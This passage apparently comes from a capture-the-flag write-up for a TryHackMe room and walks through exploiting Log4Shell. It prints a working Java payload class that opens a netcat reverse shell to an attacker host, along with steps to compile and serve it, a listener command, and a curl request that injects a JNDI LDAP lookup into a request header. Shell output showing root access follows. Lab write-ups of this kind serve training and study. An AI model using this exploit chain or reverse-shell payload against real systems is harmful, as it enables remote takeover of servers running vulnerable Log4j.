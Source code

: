 Contents of `Exploit.java` file 👇🏻
```java
public class Exploit 
{ 
	static { 
		try { 
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash ATTACKER-IP 9999"); 
			}
	catch (Exception e) 
			{ 
			e.printStackTrace(); 
			} 
		   } 
}
```
Steps:

1. Create a file named `Exploit.java` with the following contents mentioned above 
2. RUN - `javac Exploit.java -source 8 -target 8` (compile the payload file) 
3. Now new file called `Exploit.class is created`.
4. RUN - `python3 -m http.server` (start a local server) 

### Netcat listener (Terminal 3)

This is used to catch the reverse shell after the victim_server retreives & executes our malicious **Exploit.class** file.

```
nc -lvnp 9999
```

### Trigger the exploit (Terminal 4)

```bash
curl -X GET  http://VICTIM-IP/~logs/log4j/ -H 'X-Api-Version: ${jndi:ldap://Attacker-IP:1389/Exploit\}'
```
And we get a shell back on our nc

```bash
┌──(root💀kali)-[~/thm/Lumberjackturtle]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.8.106.23] from (UNKNOWN) [10.10.244.37] 42387
whoami
root
```
## user.txt 🚩

So we are user root. Hmm Wierd !

## Docker_env

Listing all the files in the `/` directory we see a `.dockerenv `  which means we are in a `docker container` .
